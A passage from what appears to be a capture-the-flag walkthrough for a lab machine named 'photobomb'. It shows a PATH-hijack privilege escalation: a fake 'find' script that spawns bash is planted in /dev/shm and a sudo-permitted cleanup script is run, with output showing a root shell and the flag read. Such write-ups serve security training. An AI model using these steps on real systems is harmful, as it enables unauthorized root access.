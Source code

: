 ```bash

        EOF
    fi
    esac
fi
if [ -x /usr/lib/command-not-found -o -x /usr/share/command-not-found/command-not-found ]; then
        function command_not_found_handle {
                # check because c-n-f could've been removed in the meantime
                if [ -x /usr/lib/command-not-found ]; then
                   /usr/lib/command-not-found -- "$1"
                   return $?
                elif [ -x /usr/share/command-not-found/command-not-found ]; then
                   /usr/share/command-not-found/command-not-found -- "$1"
                   return $?
                else
                   printf "%s: command not found\n" "$1" >&2
                   return 127
                fi
        }
fi

```


## Privilege escalation
There are two ways to escalate privileges on the victim. We will do both of them. The first one is to hijack the path for  `find` and the second one `[` is not as famous as the first option.
Before we continue we should move to a directory where we have wright permissions. 
```bash
wizard@photobomb:/opt$ cd /dev/shm
cd /dev/shm
```

### Option 1 path hijack `find`
Next we should create a file `find` with a bash payload in it so we can run our own commands.
```bash
wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > find
echo -e '#!/bin/bash\n\nbash' > find
```
Then we should set the execute permissions on the file.
```bash
wizard@photobomb:/dev/shm$ chmod +x find
chmod +x find
```
The last steps is to set the PATH to the current directory and run the bash script with sudo permission. Now we are able to run commands as root and capture the flag.
```bash
wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
sudo PATH=$PWD:$PATH /opt/cleanup.sh
whoami;id;hostname;ip a;cat /root/root.txt
root
uid=0(root) gid=0(root) groups=0(root)
photobomb
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:fd:d9 brd ff:ff:ff:ff:ff:ff
    inet 10.129.228.60/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 2620sec preferred_lft 2620sec
    inet6 dead:beef::250:56ff:fe94:fdd9/64 scope global dynamic mngtmpaddr 
```